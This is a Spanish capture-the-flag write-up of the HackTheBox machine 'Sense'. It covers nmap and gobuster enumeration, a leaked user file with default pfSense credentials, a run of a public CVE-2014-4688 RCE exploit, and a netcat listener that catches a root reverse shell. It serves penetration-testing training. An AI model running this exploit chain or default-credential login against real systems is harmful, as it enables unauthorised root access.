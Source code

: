 ```yaml
---
layout : post
author: X4v1l0k
title: Sense Writeup [HTB]
date: 2020-11-09 01:14:00 +/- 0000
categories: [Machine-Writeup, HackTheBox]
tags: [Enumeracion,RCE,OSCP Path]
headline: Sense is a beginner-friendly OpenBSD machine from Hackthebox, where we will enumerate files and directories and exploit an RCE that will grant us root.
image: https://www.hackthebox.eu/storage/avatars/a3d8bf97412b0b6247aac14695eff21c.png
---
```


Sense - 10.10.10.60
===
###### tags: `HTB` `Easy` `FreeBSD`

# Enumeración
## Nmap

```bash
$ nmap -A -Pn -p- 10.10.10.60

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-08 23:58 CET
Nmap scan report for 10.10.10.60
Host is up (0.033s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): Comau embedded (92%)
Aggressive OS guesses: Comau C4G robot control unit (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   32.39 ms 10.10.14.1
2   32.50 ms 10.10.10.60

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 215.68 seconds
```

## Directorios

```bash
gobuster dir -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,tar,zip,html -k -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,bak,tar,zip,html
[+] Timeout:        10s
===============================================================
2020/11/09 00:35:40 Starting gobuster
===============================================================
/index.html (Status: 200)
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/includes (Status: 301)
/edit.php (Status: 200)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
===============================================================
2020/11/09 00:56:40 Finished
===============================================================
```

Dentro del archivo /system-users.txt encontramos que el usuario es "Rohit" y la contraseña pone que es "company defaults".

Tras multiples pruebas, he conseguido acceder usando como usuario "rohit" y "pfsense".

# Explotación

Tenemos varios CVE entre los que hay un RCE correspondiente al [CVE-2014-4688](https://www.exploit-db.com/exploits/43560)

Ponemos una terminal a la escucha y ejecutamos el exploit.

```bash
$ python3 exp.py --rhost 10.10.10.60 --lhost 10.10.14.35 --lport 8787 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

```bash
$ nc -lnvp 8787
listening on [any] 8787 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.60] 27331
sh: can`t access tty; job control turned off
$ id
uid=0(root) gid=0(wheel) groups=0(wheel)
```

Bueno, pues tenemos root directamente... 🤷‍♂️